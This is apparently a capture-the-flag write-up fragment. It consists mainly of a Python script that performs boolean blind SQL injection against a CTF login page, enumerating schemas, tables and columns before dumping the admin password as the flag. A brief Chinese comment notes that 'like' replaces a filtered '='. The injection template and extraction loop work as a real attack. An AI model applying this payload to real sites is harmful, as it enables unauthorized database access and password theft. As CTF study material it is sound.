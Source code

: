 ```python
import time

import requests

url = "http://ctf.nefu.edu.cn:29097/doLogin.php"
true_flag = "Congratutions!"
# ctftraining,information_schema,mysql,performance_schema,test,web_sqli
# payload = "select group_concat(schema_name) from information_schema.schemata"
# user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema like database()"
# id,username,passwd
# payload = "select group_concat(column_name) from information_schema.columns where table_schema like database()"
payload = "select group_concat(passwd) from web.user"

template = "-1' union select 1,2,if(ascii(substr(({}), {}, 1))>{}, 1, 0) #"


def valid_payload(offset: int, index: int) -> bool:
    response = requests.post(url, data={
        "username": template.format(payload, offset, index),
        "password": 1
    })
    return true_flag in response.text


index = 1
result = ""

while True:
    start = 32
    end = 127
    while not(abs(start - end) == 1 or start == end):
        everage = (start + end) // 2
        if valid_payload(index, everage):
            start = everage
        else:
            end = everage
    if end < start:
        end = start
    if chr(end) == "!":
        break
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1
```
脚本注出库名、表名、列名，最后注出 `admin` 的密码就是 `flag`，这里注意用 `like` 代替了被禁用的 `=`。  
![](http://image.0error.net/202202101146430.png)
